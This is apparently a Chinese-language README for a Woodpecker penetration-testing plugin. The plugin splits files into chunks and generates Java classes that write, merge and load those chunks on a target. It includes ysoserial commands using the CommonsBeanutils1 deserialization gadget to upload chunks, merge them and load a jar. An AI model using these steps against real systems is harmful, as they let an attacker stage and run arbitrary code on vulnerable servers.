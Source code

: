 # Woodpecker分块传输插件-FragmentTransmission
![img.png](img.png)
## 功能介绍
1. 一键生成将文件分片
2. 动态生成分片文件写入与合并执行的Class

仅提供文件分片与Class生成功能，如需结合反序列化漏洞可使用`ysoserial-for-woodpecker`
上传分片文件
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "upload_file:分块1-10.file"
```

合并分片文件
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:MergeByNameCode1.class"
```
加载Jar
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:FileloaderInvokeFIlename.class"
```
测试发现BCEL没办法加载动态生成的Class

如需封装成漏洞POC工具自行修改

## 说明
1.FileSplitPlugin文件分片
2.GetTempLoad读取tmp目录下的文件合并，加载class测试分块文件完整使用
3.GenerateBlockClassTmpPlugin动态生成分块与合并class加载执行，写分块文件到tmp中
4.与3功能一致，可指定写入分块的路径，用于已知路径写入，推荐使用3

在Windows下路径使用`/`,否则在javassist会报错。


## 使用
FileSplitPlugin文件分片
![img_1.png](img_1.png)

GetTempLoad读取tmp目录下的文件合并，加载class测试分块文件完整使用

![img_3.png](img_3.png)

GenerateBlockClassTmpPlugin,生成Class文件代码将切片文件写入到临时文件夹中



GenerateBlockClassPathPlugin指定切片文件写入路径Class生成

![img_4.png](img_4.png)








